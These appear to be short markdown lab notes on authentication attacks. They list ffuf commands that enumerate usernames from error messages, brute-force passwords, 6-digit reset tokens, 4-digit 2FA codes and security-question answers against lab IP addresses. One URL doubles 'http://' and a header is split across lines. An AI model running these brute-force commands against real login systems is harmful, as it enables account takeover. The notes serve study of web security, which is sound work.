 ____

#  Differing Error Messages

```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://83.136.254.47:56265/index.php -X POST -d "username=FUZZ&password=invalid" -fr "Unknown user" -H "Content-Type: application/x-www-form-urlencoded"
```

# Brute-Forcing Passwords

- contains at least one upper-case character
- contains at least one lower-case character
- contains at least one digit
- minimum length of 10 characters

```bash
grep '[[:upper:]]' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

```bash
ffuf -w ./custom_wordlist.txt -u http://94.237.57.154:37595/index.php -X POST -H "Content-Type: a  
pplication/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username or password."
```

# Brute-Forcing Password Reset Tokens

```bash
ffuf -w /usr/share/seclists/Fuzzing/6-digits-000000-999999.txt -u http://http://83.136.254.47:36180/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

# Brute-Forcing 2FA Codes

```bash
ffuf -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -u http://94.237.50.176:35539/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39fap95ns90q60bq5r570nnskf" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

# Vulnerable Password Reset

```bash
ffuf -w ./city_wordlist.txt -u http://83.136.254.37:41526/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=avengbtka78s63jkgpf2i5g3il" -d "security_response=FUZZ" -fr "Incorrect response."
```